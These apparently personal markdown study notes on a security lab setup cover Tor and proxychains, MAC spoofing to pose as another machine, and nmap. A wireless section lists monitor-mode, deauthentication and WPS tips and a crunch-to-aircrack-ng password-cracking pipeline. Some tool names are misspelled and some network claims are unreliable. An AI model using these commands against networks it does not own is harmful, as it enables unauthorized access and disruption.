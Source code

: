 ```yaml
---
title      : "Environment Setup"
date       : 2019-08-09T22:50:57+02:00
publishdate: 2019-08-10T22:50:57+02:00
draft      : false
comments   : false
weight     : 5
revision   : 0
series:
- Security
categories:
- development
tags:
---
```


[DKMS](https://wiki.archlinux.org/index.php/Dynamic_Kernel_Module_Support)
: Dynamic Kernel Module System
* Linux kernel modules whose sources generally reside outside the kernel source tree
<!-- more -->

```
apt install -y dkms linux-headers-$(uname -r)
```

VM guest additions module

> Do not run tor as root, infact do not browse as root

* [Running tor is punishable for 3 years in Germany](https://www.privateinternetaccess.com/blog/2019/03/germany-considers-amendment-to-law-which-makes-it-illegal-to-run-a-tor-node-or-website/)
* hidden wiki
* proxychains
  * `proxychains firefox www.duckduckgo.com`
* [Countries which are censored for using tor](https://protonvpn.com/blog/are-vpns-illegal/)
* DNS Servers `/etc/resolv.conf`
  * `/etc/dhcp/dhclient.conf`
  * HIding DNS from our service provider
  * DNS Book
  * DNSleak
* Change MAC address - Media access control
  * `macchanger`
  * prent to be someone else computer, like other person in school, office
  * script to change mac Address at every reboot
    * `@reboot` in crontab entries
* IP address physical location
  * search engine `what is <IP>`
  * [iplookup](https://ipinfo.io/)
  * `nslookup
* by default `nmap` will scan for `1000` ports
  * save `nmap` output to a file, then manupulate it with `grep` and `awk`
  * [exploit-db](https://www.exploit-db.com/)

## Wireless

* `aircarch-ng`
  * `reaver` - WiFi Protected Setup Attack Tool, PIN
  * `crunch` - generate wordlists from a character set
  * pipe `crunch` output to `aircrack-ng` to for `WEP`
  * [Interface in **Monitor Mode**](https://askubuntu.com/questions/512926/how-to-configure-wifi-adaptor-to-monitor-mode)
    * [Promiscuous mode](https://en.wikipedia.org/wiki/Promiscuous_mode)
  * `wash --interface=wlan0` for `WPS`
    * search on internet which router model you are attacking for Lockout attempts
      * then plan attack accordingly
      * 2 attempts every 60 seconds `2:60`

```
ifconfig wlp2s0 down
iwconfig wlp2s0 mode monitor
ifconfig wlp2s0 up
watch --differences 'cat /proc/net/wireless'
airmon-ng check wlan0
airodump-ng wlan0
nmcli device wifi list
airodump-ng --bssid <> -c <> -w <file> wlan0

# Deauthenticate
airplay-ng -0 0 -a <BSSID> wlan0

crunch 11 11 -t %%%%hunder 1234567890 \
| aircrack-ng -w - SCAN_test01.cap -e <wifiName>
```

* Use `timeout` to run a command for certain time
* Run brute force attack in multiple machines
* 192.168.1.* - wired connection
* 192.168.0.* - wireless connection

### Footnotes

[^1]: https://en.wikipedia.org/wiki/Kevin_Mitnick
[^2]:
